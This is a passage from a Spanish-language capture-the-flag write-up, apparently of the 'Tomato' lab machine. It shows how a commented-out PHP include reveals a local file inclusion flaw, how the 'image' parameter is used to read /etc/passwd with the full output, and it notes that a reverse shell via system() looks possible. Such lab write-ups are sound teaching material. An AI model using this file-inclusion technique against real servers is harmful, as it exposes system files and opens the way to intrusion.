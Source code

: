 ```shell
```

>Si nos metemos al directorio `antibot_image`, vemos que tenemos capacidad de directory listing. 

![3.png]({%link assets/img/tomato/3.png%})
![4.png]({%link assets/img/tomato/4.png%})

>Podemos listar el `info.php`. Si filtramos por `disable_functions`, vemos que podríamos entablarnos una Reverse Shell con la función `system()` en el caso de poder ejecutar código PHP.

>Si nos fijamos el código fuente, nos podemos percatar de un comentario que podría indicarnos a una posible vulnerabilidad LFI.

```html
<!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="UTF-8">
	<meta name="viewport" content="width=device-width, initial-scale=1.0">
	<title>Document</title>
</head>
<body>
<!-- </?php include $_GET['image']; -->

</body>
</html>
```

>Nos vamos a la URL y probamos igualar el parámetro `image` al archivo `/etc/passwd`. Si nos vamos al final del documento HTML, podemos apreciar el output del archivo indicado.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
tomato:x:1000:1000:Tomato,,,:/home/tomato:/bin/bash
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:109:117:ftp daemon,,,:/srv/ftp:/bin/false
```
